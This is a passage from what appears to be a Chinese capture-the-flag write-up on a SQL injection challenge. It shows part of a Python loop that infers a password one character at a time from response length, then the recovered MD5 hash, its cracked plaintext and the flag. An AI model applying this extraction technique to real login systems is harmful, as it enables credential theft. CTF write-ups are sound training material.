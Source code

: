 ```
              req = session.post(url=url, data=data, timeout=10)
              status = req.status_code
              length = req.headers['content-length']
              if status == 200:
                     #print length
                     #print req.text
                     if length == "1205":
                            result += c
                            print c
                            break
print result
```

最后得到password的值为334cfb59c9d74849801d5acdcfdaadc3。 
 解md5后得:`eTAloCrEP` 
 登陆后得到flag:`flag:CTF{s1mpl3_1nJ3ction_very_easy!!}` 




